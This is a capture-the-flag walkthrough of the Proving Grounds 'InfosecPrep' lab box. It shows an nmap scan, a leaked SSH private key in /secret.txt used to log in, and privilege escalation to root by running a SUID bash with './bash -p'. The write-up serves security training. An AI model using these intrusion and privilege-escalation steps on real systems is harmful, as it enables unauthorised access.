

# PG Play - InfosecPrep

#### Ip: 192.168.166.89
#### Name: InfosecPrep
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/InfosecPrep]
└─$ sudo nmap -p-  --min-rate 10000 192.168.166.89 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-01 12:01 CDT
Nmap scan report for 192.168.166.89
Host is up (0.079s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91ba0dd43905e31355578f1b4690dbe4 (RSA)
|   256 0f35d1a131f2f6aa75e81701e71ed1d5 (ECDSA)
|_  256 aff153ea7b4dd7fad8de0df228fc86d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-title: OSCP Voucher &#8211; Just another WordPress site
|_http-generator: WordPress 5.4.2
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.93%I=7%D=9/1%Time=64F218EB%P=aarch64-unknown-linux-gn
SF:u%r(NULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0
SF:\x0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(H
SF:TTPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DN
SF:SVersionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequest
SF:TCP,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a
SF:\x0fInvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1
SF:a\0")%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x0
SF:8\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerC
SF:ookie,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\
SF:x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20mess
SF:age\"\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProg
SF:Neg,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDSt
SF:ring,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x
SF:0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20messa
SF:ge\"\x05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOp
SF:tions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NC
SF:P,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05
SF:HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x0
SF:5\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\
SF:0")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x
SF:0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20messa
SF:ge\"\x05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.15 seconds

```

Heading to the site we see it is tunning WordPress:


Taking a look at `/secret.txt` listed in the Nmap output we find some base64 encoded text:


We can copy this into https://gchq.github.io/CyberChef for decoding and we find it's actually an SSH key!


Back on the WordPress site we find in the instructions `Oh yea! Almost forgot the only user on this box is “oscp”.`

After copying the SSH key into a file called id_rsa, we can use it to SSH in as user oscp:

### Exploitation

```text
┌──(ryan㉿kali)-[~/PG/InfosecPrep]
└─$ chmod 600 id_rsa                                      
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/InfosecPrep]
└─$ ssh -i id_rsa oscp@192.168.166.89                     
The authenticity of host '192.168.166.89 (192.168.166.89)' can't be established.
ED25519 key fingerprint is SHA256:OORLHLygIlTRZ4nXi9nq+WIrJ26fv7tfgvVHm8FaAzE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.166.89' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 01 Sep 2023 05:05:35 PM UTC

  System load:  0.0                Processes:             211
  Usage of /:   25.3% of 19.56GB   Users logged in:       0
  Memory usage: 60%                IPv4 address for eth0: 192.168.166.89
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

-bash-5.0$ whoami
oscp
-bash-5.0$ hostname
oscp
```

We can now read the local.txt file:


### Privilege Escalation

Lets transfer over LinPEAS to help with enumeration:



Cool, LinPEAS finds that bash has the SUID bit set:


This should make for a really easy privesc.

Lets head over to https://gtfobins.github.io/gtfobins/bash/#suid and grab the command we'll need:


We can run it just as GTFObins says:

```text
bash-5.0$ cd /usr/bin
bash-5.0$ ./bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)
```

We can now grab the final flag of the challenge:


Thanks for following along!

-Ryan

-------------------------------------------
